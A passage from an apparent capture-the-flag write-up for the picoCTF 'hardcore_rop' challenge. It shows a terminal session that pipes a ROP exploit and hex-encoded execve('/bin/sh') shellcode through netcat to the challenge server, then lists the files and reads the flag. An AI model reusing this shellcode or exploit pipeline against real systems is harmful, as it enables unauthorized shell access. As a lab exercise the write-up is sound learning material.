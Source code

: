 ```bash
bas@tritonal:~/tmp/picoctf/hardcorrop$ (python ropsploit.py; python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"'; cat) | nc vuln2014.picoctf.com 4000
yo, what's up?
ROP time!
ls -al
total 24
drwxr-xr-x    2 root     root          4096 Oct 28 17:55 .
drwxr-xr-x    3 root     root          4096 Oct  5 17:33 ..
-rw-r--r--    1 root     root            21 Oct  5 17:44 flag
-rwxr-xr-x    1 root     root         11266 Oct  6 01:13 hardcore_rop
cat flag
hard_as_PIE_amirite?
```

And there's the flag! A very fun challenge!
